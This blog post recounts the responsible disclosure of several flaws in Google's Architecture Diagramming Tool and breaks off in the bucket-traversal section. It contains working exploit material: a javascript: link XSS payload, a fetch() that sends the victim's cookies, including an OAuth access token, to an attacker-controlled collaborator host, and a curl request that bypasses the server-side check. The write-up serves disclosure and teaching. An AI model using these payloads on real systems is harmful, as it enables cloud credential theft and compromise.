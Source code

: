 ```yaml
---
layout: post
title: Sketchy Cheat Sheet - Story of a Cloud Architecture Diagramming Tool gone wrong  
---
```


## Table of Contents

- [Preface](#preface)
- [Unplanned Bug Bounty hunt](#unplanned-bug-bounty-hunt)
    * [Backtracking from impact to attack scenario](#backtracking-from-impact-to-attack-scenario)
    * [Hunting for the XSS](#hunting-for-the-xss)
    * [Proving exploitability](#proving-exploitability)
    * [Attack scenario diagram #1](#attack-scenario-diagram-1)
- [Digging into the share links feature](#digging-into-the-share-links-feature)
    * [Firebase (in)secure storage](#firebase-insecure-storage)
    * [Firebase security rules](#firebase-security-rules)
    * [Demo app repurposed](#demo-app-repurposed)
    * [Unauthorized access to 30k share links](#unauthorized-access-to-30k-share-links)
- [Surprising bypass](#surprising-bypass)
    * [PoC](#poc)
    * [Attack scenario diagram #2](#attack-scenario-diagram-2)
- [Poisoning predefined architectures](#poisoning-predefined-architectures)
    * [Benevolent injection](#benevolent-injection)
    * [Attack scenario diagram #3](#attack-scenario-diagram-3)
- [Getting access to the source code](#getting-access-to-the-source-code)
- [Bucket traversal](#bucket-traversal)
    * [Generate Terraform feature](#generate-terraform-feature)
    * [White-box assessment](#white-box-assessment)
    * [Unauthorized access to Terraform Artifacts](#unauthorized-access-to-terraform-artifacts)
    * [Stumbling on a silently fixed vuln in Go Cloud Storage client library](#stumbling-on-an-n-day-in-go-cloud-storage-client-library)
    * [Attack scenario diagram #4](#attack-scenario-diagram-4)
- [Closing remarks](#closing-remarks)
- [Full timeline](#full-timeline)

---

# Preface

This blogposts goes over the details of a responsible disclosure process which took place between November 2023 and July 2024.

Throughout this period, I've reported a series of vulnerabilities & misconfigurations in Google's [Architecture Diagramming Tool](https://github.com/priyankavergadia/google-cloud-4-words/blob/master/ADT/ADT%20User%20Guide%20-%20External.pdf) [^1]

The severity of disclosed shortcomings & potential customer impact, resulted in said service getting quarantined 🚧 and ultimately decommissioned in October 2024 [^2]

<p align="center">
<a href="https://googlecloudcheatsheet.withgoogle.com/architecture" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/under_maintenance.png"/>
</a>
</p>

> ⚠️ **Disclaimer:** \
Information shared within this writeup is meant for educational purposes only.\
I performed this research independently.\
The views and opinions expressed do not necessarily reflect those of my employer.

---

# Unplanned Bug Bounty hunt
It was an early morning back in mid November 2023, when I decided that it's high time to prepare a diagram of a solution that I was working on for quite some time at this point.

As usual, I went ahead and opened my goto Diagramming Tool ie. [https://googlecloudcheatsheet.withgoogle.com/architecture](https://googlecloudcheatsheet.withgoogle.com/architecture)

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/architecture_tool.gif" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/architecture_tool.gif"/>
</a>
</p>

To my surprise, a [Sign-in](https://developers.google.com/identity/gsi/web/guides/overview) button welcomed me for the first time (at this point I was using this tool quite frequently for at least a year)

Soon it became obvious that signing in is not the only thing that changed in version **0.2.3**

Some functionality like uploading diagrams to *Google Drive* stopped working while other features like **_Generate Terraform_** got introduced.

Quick check on Twitter quickly proved that indeed a new version was released:

<p align="center">
<a href="https://twitter.com/pvergadia/status/1725217430547677607" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/twitter_msg_1.png" width="30%">
</a>
</p>

When I picked a GCE VM resource the UI required the configuration fields to be populated and here's where the Bug Bounty hunt kicks in.

The expression on my face, when I clicked on the _project_ dropdown list must have been priceless as approx. **300 Project IDs** of the Organization that I work for got listed ready to be picked 😲

While in itself it might not seem like that big of a deal, I quickly realized that somehow this **third-party app can query my employers GCP Org using my highly privileged, post-MFA credentials**.

Having integrated services with Google APIs many times before, it became apparent that somewhere in the Sign-in flow the app got a hold onto a sufficiently scoped OAuth [Access Token](https://cloud.google.com/docs/authentication/token-types#access).


## Backtracking from impact to attack scenario

At this point I got so intrigued that instead of focusing on the job at hand, I decided to dig deeper based on potential impact if compromised.
> A partially broken app + powerfull permissions does not mix well 💥

First thing I had to check is how come this third-party application got without my explicit authorization of such a grant.

As showcased below the Sign-in page did not mention one bit, that any type of Google Cloud specific [Access Scopes](https://developers.google.com/identity/protocols/oauth2/scopes) would be granted.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/misleading_sign_in.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/misleading_sign_in.png" width="30%"/>
</a>
</p>

### Google flavored OAuth 2.0

It was time to investigate the actual OAuth 2.0 request flow.

Below is the URL of the [Google OAuth Choose Account screen](https://developers.google.com/workspace/guides/configure-oauth-consent):
```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?gsiwebsdk=3&client_id=255437329003-lvuu51v6jt8u43ee3u3r5opb33dk39jp.apps.googleusercontent.com&scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform.read-only&redirect_uri=storagerelay%3A%2F%2Fhttps%2Fgooglecloudcheatsheet.withgoogle.com%3Fid%3Dauth612636&prompt=select_account&response_type=token&include_granted_scopes=true&enable_granular_consent=true&service=lso&o2v=2&theme=mn&ddm=0&flowName=GeneralOAuthFlow
```

> Some of those query parameters are standard OAuth 2.0 while some are Google's idiosyncrasies.

Let's take a closer look at the scopes reuqested by this application:
```
scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform.read-only
```

Aside from typical _opeind+profile+email_ the **_cloud-platform.read-only_** stood out.

Not only is the recommended [incremental authorization](https://developers.google.com/identity/protocols/oauth2/web-server#incrementalAuth) not implemented - what's worse the user isn't even informed that they're about to grant read-only access to GCP (!)

As it turned out, an [Access Token](https://cloud.google.com/docs/authentication/token-types#access) scoped with **_cloud-platform.read-only_** provided read-only access to **15 distinct Google Cloud APIs**, most notably:
- [App Engine Admin API](https://developers.google.com/identity/protocols/oauth2/scopes#appengine)
- [BigQuery API](https://developers.google.com/identity/protocols/oauth2/scopes#bigquery)
- [Cloud Bigtable Admin API](https://developers.google.com/identity/protocols/oauth2/scopes#bigtableadmin)
- [Cloud Storage JSON API](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- [Cloud Resource Manager API](https://developers.google.com/identity/protocols/oauth2/scopes#cloudresourcemanager)

I knew, that there were pretty much two viable options were the short lived token could be stored:
1. [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage)/[sessionStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage)
2. Set in a Cookie

Quick check proved that option #2. was at play and what's important to note is that [HttpOnly](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#httponly) attribute was not set for the Cookie in question called _accessToken_.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_cookie_params.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_cookie_params.png" width="80%"/>
</a>
</p>

Those are so called *opaque* tokens ie. their format is proprietary and can't be decoded.\
In order to verify scopes granted one has to query Google OAuth 2.0 _tokeninfo_ endpoint and that’s exactly what I did 👇

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_scopes.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_scopes.png" width="80%"/>
</a>
</p>


This made some sense since the calls to Google APIs were made dynamically on the client-side via [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?retiredLocale=pl), so Javascript had to have access to the Cookie's value.

Example snippet:
```js
            let a = new XMLHttpRequest
            return a.open("get", "https://cloudresourcemanager.googleapis.com/v1/projects"),
            // I had to figure out how this app got an Access Token without my explicit grant
            a.setRequestHeader("Authorization", "Bearer " + e),
            a.responseType = "json",
            a.onload = ()=>{
                n = (n = t2(a.response, o, s) ? n : n.concat(t3(a.response, "projects", "projectId"))).filter(e=>void 0 !== e),
                t(!1),
                n.sort(),
                r(n)
            }
            ,
            a.onerror = ()=>{
                console.error(a.response),
                t(!1)
            }
            ,
            a.send(),
            n
        }
```

The fact that the access token can be accessed from JS code is crucial since it made **any potential XSS a high severity issue**.

## Hunting for the XSS

To be quite honest, [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) is one of my least favorite attack vectors.\
Bypassing [WAFs](https://www.cloudflare.com/en-gb/learning/ddos/glossary/web-application-firewall-waf/), [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and keeping up to date with all the quirks of *latest & greatest* JS frameworks isn't exactly my cup of tea.

Having said that, I decided to look for a publicly known & exploitable XSS in the underlying dependencies.

I knew that this diagramming tool is based on a widely popular Open Source project [Excalidraw](https://github.com/excalidraw), which they proudly highlight in their [GH README](https://github.com/excalidraw/excalidraw?tab=readme-ov-file#whos-integrating-excalidraw)

> 💡 **Tip:** When dealing with OSS it's typically a good idea to start the evaluation by looking at Issues, PRs & Security Advisories.

Quick check showed that a "promising" [Security Advisory: GHSA-v7v8-gjv7-ffmr](https://github.com/advisories/GHSA-v7v8-gjv7-ffmr) & associated [CVE-2023-26140](https://nvd.nist.gov/vuln/detail/CVE-2023-26140) were published in Aug 2023.

TL;DR Versions prior to _0.15.3_ were vulnerable to a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) in the *embeddable links* feature.

The fix [PR](https://github.com/excalidraw/excalidraw/pull/6728) contained a full reproduction of the issue 👇

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/GHSA-v7v8-gjv7-ffmr.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/GHSA-v7v8-gjv7-ffmr.png"/>
</a>
</p>

Let's take a closer look at the payload 🧐

Partially url-encoded:
```
javascript://%0aalert(document.domain)
```
Once rendered turns into:
```js
javascript://
alert(document.domain)
```

Nothing fancy - typical case of a [javascript pseudo-protocol](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) based XSS.

Replicating the above was trivial:

<p align="center">
<a href="https://drive.google.com/file/d/15EjPvEuK8FSWO9sL-8M_LmknYotduXoj/preview" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/self_xss_poc.gif"/>
</a>
</p>

What I had at this point was a [self-xss](https://www.youtube.com/watch?v=j8CrJv0dTEc) which in itself could be viewed as a security issue but arguably unlikely to be exploitable in isolation.
> 💡 **Tip:** There are some scenarios when where if chained with other minor issues / gadgets like [login & logout CSRF](https://labs.detectify.com/security-guidance/login-logout-csrf-time-to-reconsider/) could be impactful as showcased quite nicely in: https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## Proving exploitability

(Un)fortunately the application provided a feature which made exploitation possible -> *read-only share links*\
[*...The interface also lets you share your diagram with your team and colleagues or add it to documentation.*](https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool#:~:text=The%20interface%20also%20lets%20you%20share%20your%20diagram%20with%20your%20team%20and%20colleagues%20or%20add%20it%20to%20documentation.)

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/shareable_links.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/shareable_links.png"/>
</a>
</p>

An attacker could simply prepare a malicious diagram and share it with the victim.

At this point there was nothing else left to do other than to actually provide a fully working PoC of the Access Token being stolen & sent to an attacker controlled endpoint.

Since there were no defense in depth mechanisms eg. [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) in place, exploitation proved to be straightforward.

I ended up using a simple [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) _POST_ request which contained all the Cookies set for domain _.googlecloudcheatsheet.withgoogle.com_ (including _accessToken_) exfiltrating them to a [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) subdomain I controlled.

URL-decoded payload:
```js
javascript://
fetch('https://zsv3yx9zsfh8o5n7j842a52olfr6fz3o.oastify.com', { method: 'POST', mode: 'no-cors', body:document.cookie })
```

Requests received by the server:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/burp_collaborator_poc_23_11_2023.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/burp_collaborator_poc_23_11_2023.png"/>
</a>
</p>

> 📝 **Note:** If you feel like you've seen exactly such a technique being used before, it's likely because you completed one of the many great [PortSwigger Web Security Academy Lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies#:~:text=Submit%20the%20following,public%20Collaborator%20server) scenarios - clearly it pays dividends to do one's homework!

Admittedly, the interaction required was quite high ie. two clicks by the victim + some persuasion to visit the diagram in the first place.

## Attack scenario diagram #1

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenario_one.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenario_one.png"/>
</a>
</p>

Feeling very confident about the quality of the finding, I submitted the report the same day.

---

# Digging into the share links feature
Soon after having received my first 🎉 [Nice catch!](https://youtu.be/IoXiXlCNoXg?list=PL590L5WQmH8dsxxz7ooJAgmijwOz0lh2H&t=700) from the Google Security Team, I decided to dig deeper into the link sharing feature itself.

The reasoning behind was simple - **what if I could access diagrams of other users?**

I knew from the end-user flow that functionality seemed to have relied on some kind of [UUIDs](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html#uuids-and-guids) ie. uniqueness & sufficiently high entropy making the attempt to enumerate objects computationally infeasible.

Some examples:
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=588e8130-892a-11ee-8127-114320374db6_
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=08bcd560-8931-11ee-8515-fd9ac1a981d6_
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=9a2d1170-8983-11ee-a3fe-3bc7acaa8e95_

It quickly turned out that there were at least two issues with the implementation, of which one proved to be lethal 💀

Taking advantage of the fact that all the logic was present on the client-side, finding relevant code was easy.

Here's the *firebaseConfig* which is used for [initialization](https://firebase.google.com/docs/web/setup#access-firebase)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_admin_config.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_admin_config.png"/>
</a>
</p>

And here's the share link client-side JS snippet:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/shared_link_js.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/shared_link_js.png"/>
</a>
</p>

## Firebase (in)secure storage
By tracking the network connections using devtools, I knew that [Cloud Storage for Firebase](https://firebase.google.com/docs/storage) was used for storing the objects containing the diagrams.

It's basically a wrapper over the foundational Google Cloud API ie. Google Cloud Storage

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_cloud_storage.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_cloud_storage.png"/>
</a>
</p>


## Firebase security rules

From access controls perspective, usage of [Cloud Storage for Firebase](https://firebase.google.com/docs/storage) introduced an alternative mechanism to handle AuthN/AuthZ other than [Cloud IAM](https://cloud.google.com/storage/docs/access-control/iam) & [ACLs](https://cloud.google.com/storage/docs/access-control/lists).

[Firebase Security Rules](https://firebase.google.com/docs/rules) offer a very elegant, customizable solution for handling AuthN/AuthZ.

> Here's a short primer from [Fireship](https://www.youtube.com/@Fireship)\
[Firebase Security in 100 Seconds](https://youtu.be/sw1Uy3zwsLs)

Unfortunately they are also prone to misconfigurations [^3]

Showcased is a sample lax rule allowing anyone to read and overwrite all objects within a given bucket.

<p align="center">
<a href="https://firebase.google.com/docs/rules/insecure-rules#storage" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/insecure_firebase_rules.png"/>
</a>
</p>

## Demo app repurposed

In order to find out, if one could simply list all the *shareLinks* I decided to repurpose a demo React application.

I’ve populated the *firebaseConfig* with the values present within the client-side Javascript and attempted to list all the files from path *sharedLinks/* taking advantage of the [list_all_files](https://firebase.google.com/docs/storage/web/list-files#list_all_files) method.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/react_poc_app.png" target="_blank">
<img src="https://storage.googleapis.com/sketchy_cheat_sheet/react_poc_app.png"/>
</a>
</p>

## Unauthorized access to 30k share links

As it turned out, anyone with sufficient knowledge could simply list all the objects (!)

There were approximately 30k share links stored in this bucket, dating all the way back to the inception of this tool.

Those contained [PII](https://www.dol.gov/general/ppii) & [Intellectual Property](https://www.proofpoint.com/uk/threat-reference/intellectual-property-theft) which I swiftly reported to Google.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/customer_shared_links.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/customer_shared_links.png"/>
</a>
</p>

> 📝 **Note:** If only I had known that a simple partially url-encoded GET request would work as well…
https://firebasestorage.googleapis.com/v0/b/sustained-racer-323200.appspot.com/o?prefix=sharedLinks%2F&delimiter=%2F

---

# Surprising bypass
After a few months of no status updates, I decided to take a look at the state of affairs myself.

As it turned out my initial PoC approach stopped working - I could still achieve self-XSS but when I attempted to generate a shear link, the payload was getting removed.

This effectively broke the attack chain, or at least that’s what I thought.

Slightly simplified diagram showcasing the mitigation attempt.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/mitigation_diagram.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/mitigation_diagram.png"/>
</a>
</p>

Having taken a look at the adjusted code responsible for the share link generation I asked myself a following question:\
what if sanitization takes place only on the client-side & and there’s **no check on the server-side**? 🤔

```js
let el = e=>{
                e && e.elements && e.elements.forEach(e=>{
                    e.link && !e.link.startsWith("https") && (e.link = "")
                     // what if sanitization takes place only on the client-side & and there’s no check on the server-side? 🤔
                }
                )
            }
              , er = async e=>{
                let t = new XMLHttpRequest;
                el(e),
                t.open("POST", "".concat("https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn", "/add_architecture"));
                let o = JSON.stringify({
                    file_content: JSON.stringify(e),
                    key: "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
                });
                t.onload = ()=>{
                    if (200 === t.status) {
                        let e = t.response
                          , o = new URL(window.location.href);
                        o.search = "link=".concat(e);
                        let l = o.toString();
                        window.prompt("Shareable link: ", l)
                    }
                }
                ,
                t.send(o)
            }
```

This would potentially allow the attacker to generate a share link bypassing the application flow entirely.

## PoC

I quickly crafted a following direct upload, proving that one can still generate a malicious share link.

```sh
# Parameter containing the payload -> \"link\":\"javascript://%0aalert(document.cookie)\"
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/add_architecture' \
  -H 'authority: us-east1-sustained-racer-323200.cloudfunctions.net' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: text/plain;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  --data-raw '{"file_content":"{\"elements\":[{\"id\":\"CtnNvcYpx2k753tl70GBg\",\"type\":\"rectangle\",\"x\":740,\"y\":300,\"width\":580,\"height\":340,\"angle\":0,\"strokeColor\":\"#000000\",\"backgroundColor\":\"transparent\",\"fillStyle\":\"hachure\",\"strokeWidth\":2,\"strokeStyle\":\"solid\",\"roughness\":0,\"opacity\":100,\"groupIds\":[],\"strokeSharpness\":\"round\",\"seed\":986902507,\"version\":8,\"versionNonce\":102275109,\"isDeleted\":false,\"boundElements\":null,\"updated\":1712221612239,\"link\":\"javascript://%0aalert(document.cookie)\",\"locked\":false,\"endArrowhead\":\"triangle\",\"fontFamily\":2}],\"files\":{}}","key":"qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"}' \
  --compressed
```

> 💡 **Tip:** In order to facilitate triage and response, it’s vital to provide actionable reproduction steps.

## Attack scenario diagram #2

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_2.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_2.png"/>
</a>
</p>

In the meantime **impact has increased** from gaining read-only to full GCP IAM permissions of the victim, due to the fact that the application now expects the **_cloud-platform_** OAuth Scope to be granted (broadest one there is when it comes to GCP APIs)

[OAuth Choose Account Link](https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?gsiwebsdk=3&client_id=255437329003-lvuu51v6jt8u43ee3u3r5opb33dk39jp.apps.googleusercontent.com&scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform&redirect_uri=storagerelay%3A%2F%2Fhttps%2Fgooglecloudcheatsheet.withgoogle.com%3Fid%3Dauth612636&prompt=select_account&response_type=token&include_granted_scopes=true&enable_granular_consent=true&service=lso&o2v=2&theme=mn&ddm=0&flowName=GeneralOAuthFlow)
(still online)

---

# Poisoning predefined architectures

The application also supported predefined, opinionated architectures.

<p align="center">
<a href="https://github.com/priyankavergadia/google-cloud-4-words/blob/master/ADT/ADT%20User%20Guide%20-%20External.pdf" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/predefined_archs.png"/>
</a>
</p>

The underlying [Excalidraw JSON files](https://docs.excalidraw.com/docs/codebase/json-schema) were stored in the same Firebase Cloud Storage bucket where the share links used to reside.

What if an attacker could overwrite those objects?

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/anonymous_object_overwrite.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/anonymous_object_overwrite.png"/>
</a>
</p>

## Benevolent injection
For the PoC, I decided to pick the _GCE Simple_ diagram since it contained [Managed Instance Group](https://cloud.google.com/compute/docs/instance-groups#managed_instance_groups), where a user can set a [startup script](https://cloud.google.com/compute/docs/instances/startup-scripts/linux)
```bash
curl -s https://firebasestorage.googleapis.com/v0/b/sustained-racer-323200.appspot.com/o/deployableArchs%2Fdf0442d0-dc56-11ed-908f-b73d0485deaf%2FresourcesData.json\?alt\=media | gron | grep 'metadata'
json[4][1].block.attributes.metadata_script = {};
json[4][1].block.attributes.metadata_script.description = "The metadata script of the instances in the instance group";
json[4][1].block.attributes.metadata_script.display = true; ### Could be set to false
json[4][1].block.attributes.metadata_script.message = "";
json[4][1].block.attributes.metadata_script.parameterSource = [];
json[4][1].block.attributes.metadata_script.parameterSource[0] = "billing_account";
json[4][1].block.attributes.metadata_script.parameterSource[1] = "project_id";
json[4][1].block.attributes.metadata_script.parameterSource[2] = "project_name";
json[4][1].block.attributes.metadata_script.parameterSource[3] = "folder_id";
json[4][1].block.attributes.metadata_script.parameterSource[4] = "org_id";
json[4][1].block.attributes.metadata_script.parameterSource[5] = "region";
json[4][1].block.attributes.metadata_script.parameterSource[6] = "compute_service_account";
json[4][1].block.attributes.metadata_script.placeholder = "echo \"helloworld\"";
json[4][1].block.attributes.metadata_script.required = true;
json[4][1].block.attributes.metadata_script.type = "string";
json[4][1].block.attributes.metadata_script.value = "echo \"helloworld\""; ### Arbitrary code exection on startup
```

In order to prove the fact that an attacker could overwrite files fetched & later processed, I decided to attempt an upload of a slightly adjusted version with a non-malicious, benevolent change showcased below:

```bash
➜  diff original_resources_data.json rce_metadata.json
909c909
<                         "placeholder": "echo \"helloworld\"",
---
>                         "placeholder": "echo \"helloworld!\"",
912c912
<                         "value": "echo \"helloworld\"",
---
>                         "value": "echo \"helloworld!\"",
```

As it turned out the Firebase Security Rules actually allowed anyone to overwrite those objects (!)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/resources_data_json_overwritten.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/resources_data_json_overwritten.png"/>
</a>
</p>

What’s more there were no integrity checks on the client-side (!)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/overwritten_value_reflected_on_the_client_side.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/overwritten_value_reflected_on_the_client_side.png"/>
</a>
</p>

The ability to overwrite those predefined architectures (trusted by the application) proved to be a very powerful primitive.

Depending on creativity and time to response an attacker would'be been able to:
- Break a large part of the application by removing the architectures & images from the bucket
- Taint existing architectures with XSS payloads greatly increasing the likelihood of stealing OAuth tokens as described in previous reports [issu.ee/312687013](https://issuetracker.google.com/issues/312687013), [issu.ee/333194226](https://issuetracker.google.com/issues/333194226)
- Overwrite critical parts of existing architectures with an aim of achieving RCE & potential persistence in victim's infrastructure

## Attack scenario diagram #3

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_3.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_3.png"/>
</a>
</p>

---

# Getting access to the source code

During some mindless poking around, I stumbled upon an email of a Googler working on the project in scope

Driven by curiosity I simply Google-searched their email and the results turned out to be quite surprising ie. indexed commits from a seemingly internal Gerrit instance. 

One of the projects contained the entire source code, both backend as well as frontend.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/indexed_gerrit_reference.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/indexed_gerrit_reference.png"/>
</a>
</p>

Anonymous [^4] user could’ve read and _git clone_ all repositories from:
 - [https://atc-team.googlesource.com](https://atc-team.googlesource.com)

One could’ve also read all the git commit messages, comments etc.:
 - [https://atc-team-review.googlesource.com](https://atc-team-review.googlesource.com)


I was able to track changes meant to mitigate / fix issues I reported:
 - [https://atc-team-review.googlesource.com/c/google-4-words/+/8280/1/hooks/useArchitecture.tsx](https://atc-team-review.googlesource.com/c/google-4-words/+/8280/1/hooks/useArchitecture.tsx)
 - [https://atc-team-review.googlesource.com/c/adt-terraform/+/8220](https://atc-team-review.googlesource.com/c/adt-terraform/+/8220)

 > After some back & forth access got restricted, so expect a **_403: Forbidden_** if you're not a Googler

---

# Bucket traversal
This is the finding that I’m most proud of - it's a variant of a bucket path traversal with a twist.

> Similiar scenario found by [Frans Rosén](https://twitter.com/fransrosen) back in 2018 [^5][^6]

## Generate Terraform feature
As foreshadowed in the [Unplanned Bug Bounty hunt](#unplanned-bug-bounty-hunt) section of this writeup version ==0.2.3== introduced a new feature.

**TL;DR One could quickly deploy all the resources from a given diagram via a backend conversion from the proprietary Excalidraw schema to valid Terraform HCL files.**

Here's the relevant part from the end user manual:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/generate_terraform_feature.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/generate_terraform_feature.png"/>
</a>
</p>

## Cloud Storage Signed URLs
Customer generated Terraform files were stored as ZIP archives in a shared bucket called `adt-tf-artifacts`.

Access to those objects was granted using shortlived [Cloud Storage Signed URLs](https://cloud.google.com/storage/docs/access-control/signed-urls).

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/user_generated_terraform_files.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/user_generated_terraform_files.png"/>
</a>
</p>

This effectively meant that **only the user who generated the object should be able to access it** (security boundary)

## White box assessment
Here's the client-side [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?retiredLocale=pl) handling the diagram upload:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/load_architecture.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/load_architecture.png"/>
</a>
</p>

